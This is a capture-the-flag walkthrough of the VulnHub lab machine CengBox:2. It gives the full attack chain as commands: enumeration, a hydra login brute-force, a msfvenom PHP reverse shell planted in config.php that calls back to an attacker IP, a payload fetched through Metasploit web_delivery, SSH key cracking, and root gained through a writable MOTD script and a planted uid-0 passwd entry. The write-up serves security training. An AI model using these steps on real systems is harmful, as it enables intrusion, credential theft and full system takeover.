








# CengBox2 CTF Walkthrough

[CengBox:2](https://www.vulnhub.com/entry/cengbox-2,486/) is a Linux vulnerable machine. It is an intermediate CTF challenge where the objective is to read the user and root flag.  
The steps I took to perform the aforementioned tasks were executed autonomously only in a small part, regarding network discovery, directories enumeration and execution of the php reverse shell. For the remaining steps I followed [this](https://www.hackingarticles.in/cengbox-2-vulnhub-walkthrough/) walkthrough to crack the virtual machine.  
To complete the challenge the following tactics and techniques were employed
1. [Reconnaissance and Discovery](#reconnaissance-and-discovery)
    + Gather victim information: IP addresses
    + Network service discovery
    + [File and directory discovery](#enumeration)
2. [Credential access](#credential-access)
    + Brute-force
3. [Initial access and Persistence](#initial-access-and-persistence)
    + Valid credentials
    + Php reverse shell
5. [Credential access](#credential-access-again)
    + Credentials in files
    + Brute-force
6. [Privilege escalation](#privilege-escalation)
    + Abuse elevation control mechanism

## Reconnaissance and discovery

For the first step the commands
```bash
netdiscover
nmap -A -p- 192.168.3.18
```
were executed.  
**Netdiscover** is an active/passive address reconnaissance tool; it can passively detect online hosts, or search for them, by actively sending ARP requests; it was necessary to find the IP address of the vulnerable machine.  
**Nmap** is a utility for network exploration and security auditing. The `-A` option is used to enable OS detection, version detection, script scanning and traceroute, while the `-p-` option is used to scan all TCP ports.  
The output of `nmap` was:



The result shows that there are services listening on port 21, 22 and 80 (**FTP**, **SSH** and **HTTP** respectively). The FTP server allows anonymous login, that is with username `anonymous` and any password.  
Once logged, only one file was found and downloaded with `get note.txt`. Its content is:
> Hey Kevin,  
I just set up your panel and used default password. Please change them before any hack.  
I try to move site to new domain which name is `ceng-company.vm` and also I created a new area for you.  
Aaron

To map the domain found in the **note** to the IP of the virtual machine, the following was added to `/etc/hosts` by using `nano`:
```bash
192.168.3.18  ceng-company.vm
```

### Enumeration

The URL `http://ceng-company.vm` was inserted in the search bar but the page presented nothing interesting, only a message indicating that the page was under maintenance.  
To perform a quick enumeration of directories and URIs the command
```bash
dirb http://ceng-company.vm
```
was executed, resulting only in finding some folder `server-status`, which was not accessible (HTTP code **403: Forbidden**).   
By further investigating the note it was more clear that Aaron was referring to a **subdomain**, rather than some subdirectory. To enumerate possible subdomains the following command was executed:
```bash
gobuster vhost -u http://ceng-company.vm -w /usr/share/wordlists/subdomains/subdomains-top1million-5000.txt --append-domain
```
**Gobuster** is a tool used to brute-force URIs (directories and files) in web sites, DNS subdomains (with wildcard support), Virtual Host names on target web servers, Open Amazon S3 buckets, Open Google Cloud buckets and TFTP servers.  
With the `vhost` mode it searches for **virtual hosts** (that are multiple domains hosted on one single server). The wordlist file contains a list of 5000 common subdomains. The flag `--append-domain` specifies that the domain is to be appended to the wordlist entries.  
The program resulted in finding the subdomain `admin.ceng-company.vm`, which was added to `/etc/hosts` with IP `192.168.3.18`.  
Looking up `http://admin.ceng-company.vm` in the browser resulted only in another **forbidden** page.

The next step was to enumerate directories and files. The command executed was:
```bash
wfuzz -c -w /usr/share/wordlists/wfuzz/general/megabeast.txt --hc 404 -u http://admin.ceng-company.vm/FUZZ
```
**Wfuzz** is a tool designed for brute forcing web applications, it can be used for finding resources not linked directories, servlets, scripts, brute-force GET and POST parameters for checking different kind of injections (SQL, XSS, LDAP,etc), brute-force Forms parameters (User/Password), Fuzzing and so on.   
The option `-c` enables colored output, while `-w <wordlist>` is the wordlist to be used; the `megabeast.txt` is the biggest wordlist available by default. The option `--hc 404` indicates to ignore responses with status code 404 and `-u <URL>` indicates the resource to be brute-forced. The keyword `FUZZ` indicates where the elements from the wordlist should be inserted.  
The tool found one subdirectory only: `gila`. This corresponds to **Gila CMS** (Content Management System), a open-source free content management system built with php7.  
With the command
```bash
wfuzz -c -w /usr/share/wordlists/wfuzz/general/common.txt --hc 404 -u http://admin.ceng-company.vm/gila/FUZZ
```
more directories and resources were found, as shown in the image:



The `common.txt` is a smaller wordlist composed of more frequent URI names.  
The `admin` subdirectory seemed interesting enough, and in fact presented a **login page**.

## Credential access

This page prompted for an **email** and a password. From the `note.txt` found earlier, it was clear that Aaron left Kevin some default credential that could be easily guessed.  
Since the page asked for an email, `kevin@ceng-company.vm` was an obvious choice. Upon inspecting the page source, it was found that the credentials were sent to the server via HTTP form with POST.  
Publicly available documents about Gila did not present any default password, so it was necessary to perform a brute-force attack against the server.  
By trying one random password in the page a prompt "_Invalid email or password_" was presented. It was now possible to perform an online guessing attack using `hydra` to gain credential access to the service:
```bash
hydra -l kevin@ceng-company.vm -P /usr/share/wordlists/john.lst 
    admin.ceng-company.vm  http-form-post 
    '/gila/admin:username=^USER^&password=^PASS^:Wrong email or password'
```
**Hydra** is a parallelized login cracker which supports numerous protocols to attack.  
The option `-l <user>` takes as input a single username to be used, while the `-P <wordlist>` takes a password file as input. In the brute-force attack each password is tried together with the prompted user. `admin.ceng-company.vm` indicates the domain to be attacked while `http-post-form` is the protocol to be used.  
The final string is composed of 3 parts separated by colons:
1. the path to the login page: `/gila/admin`
2. the string containing the credentials: `username=^USER^&password=^PASS^`, where `^USER^` and `^PASS^` are placeholders for the username and password, respectively
3. the message indicating that a wrong username-password pair has been passed to the website: `Wrong email or password`.

Here is the output of Hydra:



## Initial access and persistence

Once logged in, the website was inspected to find useful information. In the Content panel there was a **File Manager** tab that allowed managing configuration files and folders for the web server.



It was now possible to gain access to the vulnerable machine via a PHP reverse shell. The payload was generated with the following:
```bash
msfvenom --platform php -a php -p php/meterpreter/reverse_tcp LHOST=192.168.3.70 LPORT=1234
```
**Msfvenom** is a payload generator and encoder.  
The payload was generated for the platform PHP. Parameters `LHOST` and `LPORT` were configured to be the IP address of the attacker machine and an arbitrary chosen port to which the reverse shell would open a connection to. The generated payload was appended to the `config.php` file.  
To exploit the reverse shell the **Metasploit console** was opened with the command `msfconsole`.  
The **Metasploit Framework** is an open source platform that supports vulnerability research, exploit development, and the creation of custom security tools.  
From the console the following commands were executed:
```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.3.70
set LPORT 1234
exploit
```
The exploit was assigned the same information as the payload. By opening the `config.php` file on the browser (navigating to `http://admin.ceng-company.vm/gila/admin/fm/comfig.php`) the meterpreter session was started.  
The next commands executed were
```bash
shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo -l
```
The `shell` command opened the default shell of the user `www-data` (that is `/bin/sh`); to open a more powerful shell (`/bin/bash`) the one liner python command was executed.  
The last one listed the allowed (and forbidden) to execute commands for the invoking user on the current host, as specified by the security policy; it presented the following:



The next command executed was
```bash
sudo -u swartz /home/swartz/runphp.sh
```
that executed the shell script `runphp.sh` as the user `swartz`; this resulted in executing PHP on the machine.  
On another terminal tab, another Metasploit console was opened, where the following commands were executed:
```bash
use exploit/multi/script/web_delivery
set target 1
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.3.70
set LPORT 10000
exploit
```
The module loaded provides a command to be run on the target machine based on the **selected target** (PHP in this case). The provided command would download and execute a payload. The main purpose of this module is to **quickly establish a session** on a target machine when the attacker has to manually type in the command.  
The module generated a PHP command that was afterwards pasted in the other terminal. Once executed it opened a **meterpreter** session with the attacker machine.



From this new **meterpreter** it was possible to list files and folders, in particular `/home`, where another user, **mitnick**, was found and `/home/mitnick` that revealed the first flag, `user.txt` and the `.ssh` folder. Upon inspecting it, the file `id_rsa` was found, that is the **private key** for the SSH server of user mitnick. The content of the file was then saved in a file.

## Credential access (again)

The next step was to find a way in the SSH server as mitnick. To perform this it was necessary to obtain the user's credentials; it was performed with the following commands
```bash
/usr/bin/ssh2john.py is_rsa > hash
john hash
```
**John the Ripper** is a popular open-source password cracking tool that is used to test the strength of passwords. It is primarily used by security professionals and penetration testers to identify weak passwords in a system's security.  
The module `ssh2john` allows converting SSH private keys into a hash format that John can understand. With the following command, John attempted in cracking the hash of the password from which the private key is derived.  
John's default wordlist was enough to crack this password, that was **legend**.  
With these informations it was possible to log on the SSH server as mitnick:
```bash
ssh -i id_rsa mitnick@ceng-company.vm
```

## Privilege escalation

Once logged in it was possible to read the user flag `/home/mitnick/user.txt` and conclude the first part of the challenge.  
For the second one, the next commands executed were
```bash
cd /tmp
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod 777 pspy64
./pspy64
```
**Pspy** is a command line tool designed to snoop on processes without the need for `root` permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute.  
After inspecting the output produced by the tool it was found that `/etc/update-motd.d` was running. **Message Of The Day MOTD** is the message that is displayed upon login. The folder contains scripts that generate these messages; they are named with numerical prefixes to ensure that they run in a specific order.  



By listing the content of this folder it appeared that all these scripts could be modified by the current user via `nano`: 
```bash
nano /etc/update-motd.d/00-header
```
The `00-header` script is the first one that is executed and generates static header messages.
By inserting the line `chmod u+s /bin/nano` inside the file, executing the script would result in assigning the `setuid` flag the program `nano` (owned by `root`). In this fashion, when executed it would **run with the privileges of the owner**, that is, as `root`.  
In order for the modification to take place it was necessary to log out of the SSH server and log in once again. After login, running `ls -l /bin/nano` returned 



showing that the updates took effect.  With `nano` it was now possible to modify `/etc/passwd` to add a new user with password `pass`, as generated by
```bash
openssl passwd -salt ransalt -1 pass
```
The line added was
```bash
aleq:$1$ransalt$z9sZ//wbn6R75OIQ7w2ws.:0:0::/root:/bin/bash
```
It was now possible to use the substitute user command, `su`, to become the newly created user that has superuser privileges, as specified by the `suid` and `guid` values, both set at `0`. The following commands allow to obtain root privileges and read the flag, terminating the challenge:
```bash
su aleq
cd /root
cat root.txt
```
This concludes the challenge as root privileges were obtained and both flags were read.